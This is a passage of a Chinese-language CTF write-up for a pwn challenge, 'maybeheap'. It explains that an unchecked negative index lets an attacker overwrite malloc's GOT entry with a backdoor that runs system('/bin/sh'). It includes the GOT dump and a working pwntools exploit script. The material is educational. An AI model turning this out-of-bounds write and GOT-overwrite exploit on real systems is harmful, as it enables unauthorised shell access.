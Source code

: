 函数对输入没有进行检查，存在溢出攻击，可以覆盖`got`表。

```text
.got.plt:0000000000404018 B8 41 40 00 00 00 00 00       off_404018 dq offset puts               ; DATA XREF: _puts↑r
.got.plt:0000000000404020 C0 41 40 00 00 00 00 00       off_404020 dq offset system             ; DATA XREF: _system↑r
.got.plt:0000000000404028 C8 41 40 00 00 00 00 00       off_404028 dq offset printf             ; DATA XREF: _printf↑r
.got.plt:0000000000404030 D8 41 40 00 00 00 00 00       off_404030 dq offset malloc             ; DATA XREF: _malloc↑r
.got.plt:0000000000404038 E0 41 40 00 00 00 00 00       off_404038 dq offset fflush             ; DATA XREF: _fflush↑r
.got.plt:0000000000404040 E8 41 40 00 00 00 00 00       off_404040 dq offset setvbuf            ; DATA XREF: _setvbuf↑r
.got.plt:0000000000404048 F0 41 40 00 00 00 00 00       off_404048 dq offset __isoc99_scanf     ; DATA XREF: ___isoc99_scanf↑r
.got.plt:0000000000404050 F8 41 40 00 00 00 00 00       off_404050 dq offset exit               ; DATA XREF: _exit↑r
```

`got`表中存在`system`函数，可以通过覆盖`got`表，将`malloc`函数地址改为`backdoor`函数地址，从而获得`shell`。

```c
int backdoor()
{
    return system("/bin/sh");
}
```

```python
from pwn import *

context(endian='little',os='linux',arch='i386',log_level='debug')

p = process('./maybeheap')
# p = remote('ctf.qwq.cc',13898)

p.sendlineafter('Choice: ',b'1')
p.sendlineafter('Enter index (0-9) to add a new Chunk: ',b'-6')
attach(p)
p.sendafter('Enter name for the new Chunk (up to 16 characters): ',p64(0x401228))
p.interactive()
```

### 红包题！1024！

> 前5名拿到flag的选手能获得支付宝口令红包哦！

> 即使你不会逆向，拼手速完成1024也能领取红包哦！

玩！

## Re

